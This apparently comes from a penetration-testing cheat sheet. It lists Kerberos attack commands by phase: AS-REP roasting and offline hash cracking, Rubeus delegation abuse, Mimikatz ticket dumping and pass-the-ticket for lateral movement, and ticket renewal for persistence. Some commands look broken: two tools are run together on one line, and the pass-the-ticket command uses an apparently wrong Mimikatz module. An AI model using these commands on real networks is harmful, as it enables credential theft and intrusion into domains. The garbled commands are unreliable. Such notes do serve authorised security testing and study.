 \


*   **Tool:** \[\[zImpacket-getNPUsers]]

    ```bash
    impacket-GetNPUsers -no-preauth <domain>/<username> -request -dc-ip <target_ip> hashcat -m 18200 <asrep.hash> /path/to/wordlist
    ```
* **Description:** Exploits users that have "Do not require Kerberos preauthentication" set by retrieving AS-REP messages and attempting to crack them offline.

### Privilege Escalation

#### Kerberos Delegation Abuse

*   **Tool:** \[\[Rubeus]]

    ```bash
    rubeus.exe tgtdeleg
    ```
* **Description:** Exploits Kerberos delegation to impersonate users and access resources on their behalf.

### Internal Reconnaissance

#### Enumeration of Kerberos Tickets

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```bash
    sekurlsa::tickets
    ```
* **Description:** Lists all Kerberos tickets in memory, helping identify high-value targets for further exploitation.

### Lateral Movement, Pivoting, and Tunnelling

#### Pass-the-Ticket for Lateral Movement

*   **Tool:** \[\[Mimikatz Cheat Sheet]]

    ```bash
    sekurlsa::ptt <ticket.kirbi>
    ```
* **Description:** Move laterally within the network by using stolen Kerberos tickets to access services on other systems.

### Defense Evasion

#### Ticket Renewal to Avoid Detection

*   **Tool:** \[\[KInit]]

    ```bash
    kinit -R
    ```
* **Description:** Renews the TGT to maintain persistence while avoiding detection from expired tickets.
